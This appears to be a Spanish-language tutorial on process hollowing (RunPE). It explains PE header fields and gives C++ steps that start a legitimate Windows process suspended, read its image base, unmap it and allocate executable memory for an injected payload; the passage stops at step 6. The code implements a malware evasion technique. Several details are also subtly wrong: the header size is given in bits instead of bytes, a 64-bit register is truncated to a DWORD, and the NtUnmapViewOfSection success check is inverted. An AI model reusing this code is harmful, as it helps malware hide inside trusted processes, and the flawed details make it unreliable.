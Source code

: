 # Antes que nada , debemos saber lo siguiente

1. **Trabajaremos con archivos PE de Windows**
2. **Hablaremos de MS-DOS y DOS**:
   - MS-DOS, o Microsoft Disk Operating System, fue un sistema operativo desarrollado por Microsoft para computadoras personales ([Wikipedia](https://es.wikipedia.org/wiki/MS-DOS))
3. **Hablaremos de Arquitecturas de 32 y 64 bits**
_________________________________________________________________________________________________________

Portable Executable (PE) es un formato de archivo para archivos ejecutables, de código objeto, bibliotecas de enlace dinámico (DLL), archivos de fuentes FON​ y otros usados en versiones de 32 bit y 64 bit del sistema operativo Microsoft Windows segun Wikipedia.

Estos archivos contienen una estructura que deberemos entender para esta tecnica:

![image](https://github.com/user-attachments/assets/6bff7db8-1895-432d-8915-8d0be11a8608)

Solo mencionaremos las partes que son necesarias

## Dos Header
Este encabezado es una estructura de 64 bits que existe al principio de todos los PE Files, este no es importante en sistemas Windows modernos pero se sigue incluyendo por razones de compatibilidad con versiones anteriores.

Esta cabecera convierte el archivo en un ejecutable MS-DOS, de modo que cuando se carga en MS-DOS se ejecuta el stub DOS en lugar del programa real.

Sin esta cabecera, si se intenta cargar el ejecutable en MS-DOS no se cargará y sólo producirá un error genérico.

### Estructura
![image](https://github.com/user-attachments/assets/4eb708c2-d37d-4e26-979a-bc24c1c5172c)

Esta estructura es importante para el cargador PE en MS-DOS, sin embargo sólo unos pocos miembros de la misma son importantes para el cargador PE en sistemas Windows, por lo que no vamos a ver todo , sólo los miembros importantes de la estructura.

* e_magic: Es el primer miembro de la Cabecera DOS, es un WORD por lo que ocupa 2 bytes, se le suele llamar número mágico. Tiene un valor fijo de 0x5A4D o MZ en ASCII, y sirve como firma que marca el fichero como ejecutable MS-DOS.
* e_lfanew: Este es el último miembro de la estructura de cabecera del DOS, se encuentra en el offset 0x3C dentro de la cabecera del DOS y contiene un offset al inicio de las cabeceras NT. Este miembro es importante para el cargador PE en sistemas Windows porque le dice al cargador dónde buscar la cabecera del archivo.

![image](https://github.com/user-attachments/assets/669dcc0d-c8ef-4114-87a0-ea86c9c902b3)

Como puedes ver, el primer miembro de la cabecera es el número mágico con el valor fijo del que hablamos que era 5A4D.

El último miembro de la cabecera (en el offset 0x3C) recibe el nombre de «File address of new exe header», tiene el valor 100, podemos seguir hasta ese offset y encontraremos el inicio de las cabeceras NT como era de esperar:

## Dos Stub
El stub de DOS es un programa de MS-DOS que imprime un mensaje de error diciendo que el ejecutable no es compatible con DOS y luego sale.

Esto es lo que se ejecuta cuando el programa se carga en MS-DOS, el mensaje de error por defecto es «Este programa no puede ejecutarse en modo DOS», sin embargo este mensaje puede ser cambiado por el usuario durante el tiempo de compilación.

Eso es todo lo que necesitamos saber sobre el stub DOS, realmente no nos importa, pero puede hacer mucho mas.

![image](https://github.com/user-attachments/assets/d150b7bc-2e5c-4962-8b66-c38b3404cc00)

## NT Header
Los NT-Headers son una parte importante de los ejecutables portables. Contienen una gran cantidad de información sobre el PE File.

Existen dos versiones de la estructura dependiendo de la arquitectura (32 bits o 64 bits). En cualquier caso, la estructura tiene tres elementos: una firma, un encabezado de archivo (IMAGE_FILE_HEADER) y un encabezado opcional (IMAGE_OPTIONAL_HEADER).

Contienen muchisima informacion relevante para otras areas, pero no para esta, solo nos centraremos en algunas partes del encabezado opcional.

Precisamente en el Entrypoint y ImageBase :
   - Entrypoint: Muy basicamente es la dirección de memoria donde comienza la ejecución del código cuando se inicia un programa
   - ImageBase: Es la dirección de memoria virtual donde se carga un archivo ejecutable cuando se ejecuta

_________________________________________________________________________________________________________

## 1. Obtenemos los bytes del archivo a inyectar y los guardamos en un buffer

``` cpp
    HANDLE sourceFile = CreateFileA(sourceProcess.c_str(), GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
    if (sourceFile == INVALID_HANDLE_VALUE) {
        ErrorExit("No se pudo abrir el archivo de origen");
    }

    DWORD sourceFileSize = GetFileSize(sourceFile, NULL);
    LPVOID sourceFileBytesBuffer = HeapAlloc(GetProcessHeap(), 0, sourceFileSize);
```

Donde usamos [CreateFileA](https://learn.microsoft.com/es-es/windows/win32/api/fileapi/nf-fileapi-createfilea) para abrir un [Handle](https://es.wikipedia.org/wiki/Handle) al archivo.

Luego deberemos obtener su peso utilizando la funcion [GetFileSize](https://learn.microsoft.com/es-es/windows/win32/api/fileapi/nf-fileapi-getfilesize)

Por ultimo, asignamos memoria utilizando [HeapAlloc](https://learn.microsoft.com/es-es/windows/win32/api/heapapi/nf-heapapi-heapalloc) para guardar los bytes del archivo

## 2. Obtener los encabezados del archivo

``` cpp
    PIMAGE_DOS_HEADER sourceImageDOSHeader = (PIMAGE_DOS_HEADER)sourceFileBytesBuffer;
    PIMAGE_NT_HEADERS sourceImageNTHeaders = (PIMAGE_NT_HEADERS)((DWORD_PTR)sourceFileBytesBuffer + sourceImageDOSHeader->e_lfanew);
```

Donde obtendremos el Entrypoint y el Imagebase , necesarios para la ejecucion del archivo

## 3. Crear proceso y iniciarlo en estado suspendido

``` cpp
    STARTUPINFOA startupInfo;                  // Guardaremos el StartupInfo del proceso
    PROCESS_INFORMATION processInfo;           // Guardaremos el ProcessInformation del proceso
```

Se inicializan las estructuras STARTUPINFOA y PROCESS_INFORMATION rellenándolas con ceros utilizando [ZeroMemory](https://learn.microsoft.com/es-es/previous-versions/windows/desktop/legacy/aa366920(v=vs.85))
``` cpp
    ZeroMemory(&startupInfo, sizeof(startupInfo));   
    ZeroMemory(&processInfo, sizeof(processInfo));
    startupInfo.cb = sizeof(startupInfo);
```

Utilizamos [CreateProcessA](https://learn.microsoft.com/es-es/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa) para iniciar nuestro proceso en estado SUSPENDIDO

Es necesario que ejecutemos el proceso en estado suspendido, esto sigifica que proceso se inicia pero no ejecuta código

``` cpp
    if (!CreateProcessA(
        targetProcess.c_str(),    // Nombre del proceso a crear
        NULL,                      // Parámetros de línea de comandos
        NULL,                      // Atributos de seguridad del proceso
        NULL,                      // Atributos de seguridad del hilo
        FALSE,                     // Herencia de handles
        CREATE_SUSPENDED,          // Flags de creación - SUSPENDIDO
        NULL,                      // Entorno del proceso
        NULL,                      // Directorio actual
        &startupInfo,              // Información de inicio
        &processInfo               // Información del proceso
    )) {
        ErrorExit("No se pudo crear el proceso legítimo");
    }

```

## 4. Obtener informacion del proceso creado

Accedemos al contexto del hilo principal usando [GetThreadContext](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-getthreadcontext).

Usando [ReadProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-readprocessmemory), leemos la dirección base del proceso desde el PEB (offset +8).

``` cpp
    CONTEXT context;
    context.ContextFlags = CONTEXT_FULL;

    if (!GetThreadContext(processInfo.hThread, &context)) {
        ErrorExit("No se pudo obtener el contexto del hilo");
    }
    // En x64, el registro Rbx apunta al PEB , si fuera x86 utilizariamos Ebx
    DWORD pebAddress = context.Rbx;

    // La dirección base del proceso está en el desplazamiento 0x8 del PEB
    LPVOID imageBaseAddress = 0;
    SIZE_T bytesRead2 = 0;

    if (!ReadProcessMemory(
        processInfo.hProcess,
        (LPVOID)(pebAddress + 8),
        &imageBaseAddress,
        sizeof(LPVOID),
        &bytesRead2
    )) {
        ErrorExit("No se pudo leer la dirección base del proceso");
    }
```

## 5. Desasignar memoria del proceso legítimo

Deberemos desasignar memoria de nuestro proceso utilizando [NtUnmapViewOfSection](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FSection%2FNtUnmapViewOfSection.html) creando un "hueco" para nuestro código

``` cpp
if (!NtUnmapViewOfSection(processInfo.hProcess,imageBaseAddress)) 
```

## 6. Asignar nueva memoria en el proceso legítimo

Deberemos asignar memoria en nuestro "hueco" utilizando [VirtualAllocEx](https://learn.microsoft.com/es-es/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) para poder escribir los bytes de nuestro payload

``` cpp
    LPVOID newBaseAddress = VirtualAllocEx(
        processInfo.hProcess,
        (LPVOID)(sourceImageNTHeaders->OptionalHeader.ImageBase),
        sourceImageNTHeaders->OptionalHeader.SizeOfImage,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE
    );
```
